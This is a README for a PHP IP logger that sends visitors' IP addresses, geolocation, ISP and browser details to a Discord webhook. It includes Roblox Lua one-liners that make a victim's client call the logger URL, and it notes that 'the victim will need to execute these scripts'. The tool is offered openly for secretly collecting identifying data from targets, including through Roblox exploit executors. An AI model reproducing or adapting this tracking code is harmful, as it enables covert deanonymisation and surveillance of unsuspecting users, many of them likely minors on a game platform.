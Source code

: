 # Webhook-IP-Logger
This is a PHP IP that sends people IPs and IP information to a discord webhook.
Go to https://eddippla.github.io/WebhookLogger/ for more information.
# Features
- Grabs the IP then gets info about it after that it sends it to a webhook you have entered.  
- Gets Geo Location & ISP aswell as the browser
- Filters out bots
- ROBLOX Lua script for it (for exploits that have HttpGet or ROBLOX Studio)
# How to use it on ROBLOX
Step 1: Complete the tutorial above on getting an IP logger link, unless you have your own site.  
Step 2: Put the link of the IP logger in between the qoutations. Exploits is for a script that will only work on  
**Note: The victim will need to execute these scripts. Executing this yourself will only get your own IP.**  
**[Exploits]**  
```lua
game:HttpGet("Site Here")
```
**[Roblox Studio]**  
```lua
game:GetService("HttpService"):GetAsync("Site Here")
```
**[Example]**  
```lua
game:HttpGet("https://mysite.com/iplogger.php")
```
